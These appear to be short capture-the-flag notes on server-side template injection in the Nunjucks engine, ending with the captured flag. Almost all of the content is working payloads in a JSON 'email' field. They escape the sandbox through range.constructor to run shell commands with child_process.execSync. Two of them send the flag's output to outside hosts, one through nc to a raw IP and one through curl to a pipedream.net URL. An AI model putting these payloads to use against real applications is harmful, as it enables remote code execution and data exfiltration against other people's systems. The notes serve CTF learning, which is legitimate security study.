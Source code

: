 `{"email":"{{ gifSrc }}"}`

`{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('ls')\")()}}"}`

`{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('/readflag | nc 83.252.31.31 6666')\")()}}"}`

http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine

```
{"email":"{{range.constructor(\"return global.process.env.NODE_ENV = 'lol'\")()}}"}

{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('curl https://enqzttqwlehnq7e.m.pipedream.net/$(/readflag)')\")()}}"}
```

`CHTB{I_can_f1t_my_p4yl04ds_3v3rywh3r3!}`